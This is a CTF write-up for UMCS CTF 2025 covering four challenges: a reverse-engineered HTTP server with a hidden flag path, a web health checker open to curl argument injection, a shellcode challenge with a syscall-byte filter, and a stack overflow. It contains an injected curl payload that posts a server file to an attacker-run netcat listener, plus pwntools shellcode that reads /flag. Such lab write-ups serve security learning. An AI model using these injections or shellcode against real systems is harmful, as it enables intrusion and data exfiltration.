


# UMCS CTF 2025 Writeup

## 1.0 http-server

### 1.1 Description

I created a http server during my free time

`34.133.69.112 port 8080`

### 1.2 Category

Reverse Engineering

### 1.3 Attachments

- server.unknown

### 1.4 Solution

1. Analyze attachment file type:

   ```sh
   $ file server.unknown
   server.unknown: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=02b67a25ce38eb7a6caa44557d3939c32535a2a7, for GNU/Linux 3.2.0, stripped
   ```

2. Inspect `server.unknown` with IDA Pro:

   ```c
   // important snippet
   if ( strstr((const char *)ptr, "GET /goodshit/umcs_server HTTP/13.37") )
   {
     stream = fopen("/flag", "r");
     if ( stream )
     {
       memset(buf, 0, 0x400u);
       n = fread(buf, 1u, 0x3FFu, stream);
       fclose(stream);
       v3 = strlen("HTTP/1.1 200 OK\r\nContent-Type: text/plain\r\n\r\n");
       send(a1, "HTTP/1.1 200 OK\r\nContent-Type: text/plain\r\n\r\n", v3, 0);
       send(a1, buf, n, 0);
     }
     // other code
   }
   ```

3. Get flag:
   ```sh
   $ printf "GET /goodshit/umcs_server HTTP/13.37\r\nHOST: 34.133.69.112:8080\r\n\r\n" | nc 34.133.69.112 8080
   HTTP/1.1 200 OK\r\nContent-Type: text/plain\r\n\r\n
   umcs{<flag_redacted>}
   ```

## 2.0 healthcheck

### 2.1 Description

I left my hopes_and_dreams on the server. Can you help fetch it for me?

[http://104.214.185.119/index.php](http://104.214.185.119/index.php)

### 2.2 Category

Web

### 2.3 Attachments

None

### 2.4 Solution

1. When giving valid input, the response code of the URL is returned. Theory: backend runs shell command `curl` to get response code.
   
   
2. Play around with the input, special characters typically related to bash scripting is filtered. `-` is not filtered.
3. Prepare listener on host machine:
   ```sh
   nc -lvnp 80
   ```
4. Pass input on website:
   ```txt
   -X POST --data-ascii @hopes_and_dreams http://<host_machine_ip>
   ```
5. `hopes_and_dreams` content gets printed on listener stdout:

   ```sh
   Listening on 0.0.0.0 80
   Connection received on 104.214.185.119 41800
   POST / HTTP/1.1
   Host: 164.92.121.195
   User-Agent: curl/7.52.1
   Accept: */*
   Content-Length: 41
   Content-Type: application/x-www-form-urlencoded

   umcs{<flag_redacted>}
   ```

## 3.0 babysc

### 3.1 Description

shellcode

`34.133.69.112 port 10001`

### 3.2 Category

PWN

### 3.3 Attachments

- babysc
- babysc.c
- Dockerfile

### 3.4 Solution

1. Inspect `babysc.c`:

   ```c
   void vuln(){
     // some code
     shellcode = mmap((void *)0x26e45000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON, 0, 0);

      puts("Enter 0x1000");
      shellcode_size = read(0, shellcode, 0x1000);
     for (int i = 0; i < shellcode_size; i++)
     {
       uint16_t *scw = (uint16_t *)((uint8_t *)shellcode + i);
       if (*scw == 0x80cd || *scw == 0x340f || *scw == 0x050f)
       {
         printf("Bad Byte at %d!\n", i);
         exit(1);
       }
     }
     puts("Executing shellcode!\n");
      ((void(*)())shellcode)();
   }
   ```

2. Based on observation, shellcode is written to a memory segment that allows write, read and execution. However, bytes related to `syscall`s are not allowed.
3. Based on Dockerfile, the flag resides on `/flag`. The user running `babysc` process may not have the right permissions to read the file.
4. For sanity check, the `syscall` byte checks are removed and compiled again with the same security flags. The permissions are also ignored.
5. Forge a script to pass shellcode to the modified executable:

   ```py
   #!/usr/bin/env python3
   from pwn import *

   context.arch = "amd64"
   context.log_level = "DEBUG"

   exe = "./babysc_no_syscall_check"
   elf = context.binary = ELF(exe, checksec=True)
   conn = process(exe)

   shellcode = asm("""
   mov rax, 0x2
   lea rdi, [rip + path]
   xor esi, esi
   xor edx, edx
   syscall

   mov rdi, rax

   xor rax, rax
   mov rsi, rsp
   mov rdx, 0x50
   syscall

   mov rdx, rax
   mov rax, 0x1
   mov edi, 0x1
   mov rsi, rsp
   syscall

   mov rax, 60
   xor edi, edi
   syscall

   path:
       .string "/flag"
   """)

   conn.recvuntil(b"Enter 0x1000")
   shellcode = shellcode.ljust(0x1000, b"\x90")
   conn.send(shellcode)

   conn.interactive()
   ```

6. Run the script:

   ```sh
   (venv) $ python script.py
   [!] Could not populate PLT: Cannot allocate 1GB memory to run Unicorn Engine
   [*] '/root/babysc/babysc_no_syscall_check'
       Arch:       amd64-64-little
       RELRO:      Full RELRO
       Stack:      No canary found
       NX:         NX unknown - GNU_STACK missing
       PIE:        PIE enabled
       Stack:      Executable
       RWX:        Has RWX segments
       SHSTK:      Enabled
       IBT:        Enabled
       Stripped:   No
       Debuginfo:  Yes
   [+] Starting local process './babysc_no_syscall_check' argv=[b'./babysc_no_syscall_check'] : pid 22862
   [DEBUG] cpp -C -nostdinc -undef -P -I/root/venv/lib/python3.12/site-packages/pwnlib/data/includes
   [DEBUG] Assembling
       .section .shellcode,"awx"
       .global _start
       .global __start
       _start:
       __start:
       .intel_syntax noprefix
       .p2align 0
       mov rax, 0x2
       lea rdi, [rip + path]
       xor esi, esi
       xor edx, edx
       syscall
       mov rdi, rax
       xor rax, rax
       mov rsi, rsp
       mov rdx, 0x50
       syscall
       mov rdx, rax
       mov rax, 0x1
       mov edi, 0x1
       mov rsi, rsp
       syscall
       mov rax, 60
       xor edi, edi
       syscall
       path:
         .string "/flag"
   [DEBUG] /usr/bin/x86_64-linux-gnu-as -64 -o /tmp/pwn-asm-5i652y1g/step2 /tmp/pwn-asm-5i652y1g/step1
   [DEBUG] /usr/bin/x86_64-linux-gnu-objcopy -j .shellcode -Obinary /tmp/pwn-asm-5i652y1g/step3 /tmp/pwn-asm-5i652y1g/step4
   [DEBUG] Received 0xd bytes:
       b'Enter 0x1000\n'
   [DEBUG] Sent 0x1000 bytes:
       00000000  48 c7 c0 02  00 00 00 48  8d 3d 37 00  00 00 31 f6  │H···│···H│·=7·│··1·│
       00000010  31 d2 0f 05  48 89 c7 48  31 c0 48 89  e6 48 c7 c2  │1···│H··H│1·H·│·H··│
       00000020  50 00 00 00  0f 05 48 89  c2 48 c7 c0  01 00 00 00  │P···│··H·│·H··│····│
       00000030  bf 01 00 00  00 48 89 e6  0f 05 48 c7  c0 3c 00 00  │····│·H··│··H·│·<··│
       00000040  00 31 ff 0f  05 2f 66 6c  61 67 00 90  90 90 90 90  │·1··│·/fl│ag··│····│
       00000050  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
       *
       00001000
   [*] Switching to interactive mode

   [*] Process './babysc_no_syscall_check' stopped with exit code 0 (pid 22862)
   [DEBUG] Received 0x29 bytes:
       b'Executing shellcode!\n'
       b'\n'
       b'umcs{hello_friend}\n'
   Executing shellcode!

   umcs{hello_friend}
   [*] Got EOF while reading in interactive
   $
   ```

7. When running the script on original `babysc`:

   ```sh
   # other output
   [DEBUG] Received 0x10 bytes:
       b'Bad Byte at 18!\n'
   Bad Byte at 18!
   # other output
   ```

8. Change assembly code to dynamically load bytes `0x0f05` to replace `syscall`:

   ```py
   #!/usr/bin/env python3
   from pwn import *

   context.arch = "amd64"
   context.log_level = "DEBUG"

   exe = "./babysc_no_syscall_check"
   elf = context.binary = ELF(exe, checksec=True)
   conn = process(exe)

   shellcode = asm("""
   mov byte ptr [rip + encoded], 0x0f
   mov byte ptr [rip + encoded + 1], 0x05

   mov rax, 0x2
   lea rdi, [rip + path]
   xor esi, esi
   xor edx, edx
   call encoded

   mov rdi, rax

   xor rax, rax
   mov rsi, rsp
   mov rdx, 0x50
   call encoded

   mov rdx, rax
   mov rax, 0x1
   mov edi, 0x1
   mov rsi, rsp
   call encoded

   mov rax, 60
   xor edi, edi
   call encoded

   encoded:
       nop
       nop

   path:
       .string "/flag"
   """)

   conn.recvuntil(b"Enter 0x1000")
   shellcode = shellcode.ljust(0x1000, b"\x90")
   conn.send(shellcode)

   conn.interactive()
   ```

9. Run the script and get the following crash:

   ```sh
   [*] Switching to interactive mode

   [*] Got EOF while reading in interactive
   [DEBUG] Sent 0x5 bytes:
       b'exit\n'
   [*] Process './babysc' stopped with exit code -11 (SIGSEGV) (pid 23064)
   ```

**_UNSOLVED_**

## 4.0 liveleak

### 4.1 Description

No desc

`34.133.69.112 port 10007`

### 4.2 Category

PWN

### 4.3 Attachments

- chall
- Dockerfile
- ld-2.35.so
- libc.so.6

### 4.4 Solution

1. Based on Dockerfile, flag is located at `/flag`. The user running `chall` may not have proper permissions to read the file.
2. Open `chall` on IDA Pro:

   ```c
   void __noreturn alarm_handler()
   {
     puts("TIME OUT");
     exit(-1);
   }

   unsigned int initialize()
   {
     setvbuf(stdin, 0, 2, 0);
     setvbuf(stdout, 0, 2, 0);
     signal(14, (__sighandler_t)alarm_handler);
     return alarm(0x1Eu);
   }

   char *vuln()
   {
     char s[64]; // [rsp+0h] [rbp-40h] BYREF

     puts("Enter your input: ");
     return fgets(s, 128, stdin);
   }

   int __fastcall main(int argc, const char **argv, const char **envp)
   {
     initialize();
     vuln();
     return 0;
   }
   ```

3. Upon research, `ret2libc` may be the exploit here. [CVE-2023-4911](https://nvd.nist.gov/vuln/detail/cve-2023-4911):

   ```txt
   Assigned: October 3, 2023

   Type: Local Privilege Escalation

   Affected Versions: glibc 2.34 and later

   Distributions: RHEL, Ubuntu, Fedora, Debian, Amazon Linux, Gentoo, and others using glibc Mitigation

   Upgrade: Apply glibc updates promptly.

   Monitor: Stay informed about security advisories.

   Review: Assess GLIBC_TUNABLES usage in applications.

   Audit: Examine system logs for suspicious activity.
   ```

**_UNSOLVED_**
